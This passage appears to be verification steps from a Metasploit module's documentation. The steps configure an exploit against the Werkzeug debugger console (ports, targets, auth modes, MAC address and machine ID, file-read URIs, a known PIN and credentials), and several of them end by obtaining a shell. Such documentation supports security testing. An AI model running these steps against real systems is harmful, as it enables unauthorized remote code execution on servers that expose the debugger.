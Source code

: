 ### Werkzeug 0.10.1 (No authentication required) using /console

55. Do: `unset METHOD`
56. Do: `unset TARGETURI`
57. Do: `unset REQUESTBODY`
58. Do: `set RPORT 83`
59. Do: `set TARGET 3`
60. Do: `set AUTHMODE none`
61. Do: `set MACADDRESS <mac-address>`
62. Do: `set MACHINEID <machine-id>`
63. Do: `run`
64. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.10.1 (No authentication required) using /debugger (GET)

65. Do: `set TARGETURI /getdownload?file=`
66. Do: `run`
67. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.10.1 (no authentication required) using debugger (POST)

68. Do: `set METHOD POST`
69. Do: `set TARGETURI /postdownload`
70. Do: `set REQUESTBODY file=`
71. Do: `run`
72. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 3.0.3 using debugger (POST) and known PIN with Basic HTTP Auth

73. Do: `set RPORT 84`
74. Do: `set TARGET 0`
75. Do: `set AUTHMODE known-PIN`
76. Do: `set HTTPUSERNAME admin`
77. Do: `set HTTPPASSWORD admin`
78. Do: `set PIN 1234`
79. Do: `run`
80. You should see a cookie being logged then get a shell.

### Werkzeug 3.0.3 interactive debugger disabled

81. Do: `set RPORT 85`
82. Do: `unset AUTHMODE`
83. Do: `set MACADDRESS <mac-address>`
84. Do: `set MACHINEID <machine-id>`
85. Do: `set FLASKPATH /usr/local/lib/python3.12/site-packages/flask/app.py`
86. Do: `run`
87. You should see a failure due to the check failing.
